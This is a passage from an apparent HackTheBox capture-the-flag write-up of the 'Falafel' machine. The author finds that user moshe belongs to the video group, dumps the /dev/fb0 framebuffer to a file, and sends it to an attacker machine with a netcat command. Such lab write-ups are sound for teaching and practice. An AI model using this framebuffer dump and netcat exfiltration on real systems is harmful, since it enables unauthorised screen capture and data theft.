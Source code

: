 I enumerate the system some more and check out what groups `moshe` is a member of.
```bash
moshe@falafel:~$ groups
moshe adm mail news voice floppy audio video games
```

Some of these groups are interesting as they are not the default groups that most users are a part of. In hackthebox challenges, nothing is done by accident.

I do some more enumeration of the groups. I admit that this step took me quite a significant amount of time to figure out anything useful, but persistence paid off.
It turns out that the **video** group has access to something interesting.
```bash
moshe@falafel:~$ find / -group video 2> /dev/null
**/dev/fb0**
/dev/dri/card0
/dev/dri/renderD128
/dev/dri/controlD64
```

`/dev/fb0` is the [framebuffer](https://en.wikipedia.org/wiki/Linux_framebuffer) device. My persistent googling lead me to [this blog](https://www.cnx-software.com/2010/07/18/how-to-do-a-framebuffer-screenshot/) that allows the framebuffer to be dumped to an image file.

I save the script as `toteslegit.pl` on my Kali host
![htb-falafel16](/images/htb/falafel/htb-falafel16.png)

I grab the size of the frame buffer from falafel, dump the framebuffer out to a file, and transfer it over to my Kali machine via netcat.
```bash
moshe@falafel:~$ cat /sys/class/graphics/fb0/virtual_size
1176,885
moshe@falafel:~$ cat /dev/fb0 > framebuffer.raw
moshe@falafel:~$ nc -w 3 10.10.14.200 9002 < framebuffer.raw   
```
